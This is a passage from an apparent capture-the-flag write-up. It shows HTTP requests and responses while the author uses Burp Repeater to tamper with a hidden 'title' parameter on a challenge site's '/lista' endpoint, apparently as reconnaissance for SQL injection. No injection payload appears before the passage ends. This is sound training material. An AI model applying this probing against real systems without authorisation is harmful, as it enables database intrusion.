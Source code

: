 That is, 'title' seems to be the name of a column and 'name' the row of another column '\<name\>'. At this point, we have no connaissance of the real names of \<table\> and \<name\>.

Let's see what happens if we enter an artist not registered in the database:

REQUEST 3

    GET /lista?name=El+Canto+del+Loco&title=title HTTP/1.1
    Host: retos.ciberseg.uah.es:81
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:43.0) Gecko/20100101 Firefox/43.0 Iceweasel/43.0.4
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://retos.ciberseg.uah.es:81/
    Connection: close

RESPONSE 3

    HTTP/1.1 200 OK
    Date: Sun, 22 Jan 2017 10:37:44 GMT
    Server: Apache/2.4.18 (Ubuntu)
    X-Powered-By: Phusion Passenger 5.1.1
    Content-Length: 48
    Status: 200 OK
    Connection: close
    Content-Type: text/html; charset=utf-8

    <h1> Encontrados los siguientes discos: </h1>

As expected, the application doesn't return any disc.

Now we are going to manipulate the parameters sent in 'name' and 'title'. In order to do this, we choose the Request#2 in the history of requests in Burp and send it to the 'Repeater' module, where we will be able to modify any parameter in the header of the request. This way, we can easily configure the values of 'name' and 'title' for each request.

I.e. now we configure 'title=pepito'. Although 'title' is a hidden field, we are able to manipulate it with Burp.

REQUEST 4

    GET /lista?name=Pink+Floyd&title=pepito HTTP/1.1
    Host: retos.ciberseg.uah.es:81
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:43.0) Gecko/20100101 Firefox/43.0 Iceweasel/43.0.4
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://retos.ciberseg.uah.es:81/
    Connection: close

RESPONSE 4

    HTTP/1.1 200 OK
    Date: Sun, 22 Jan 2017 10:40:38 GMT
    Server: Apache/2.4.18 (Ubuntu)
    X-Powered-By: Phusion Passenger 5.1.1
    Content-Length: 31
    Status: 200 OK
    Connection: close
    Content-Type: text/html; charset=utf-8
    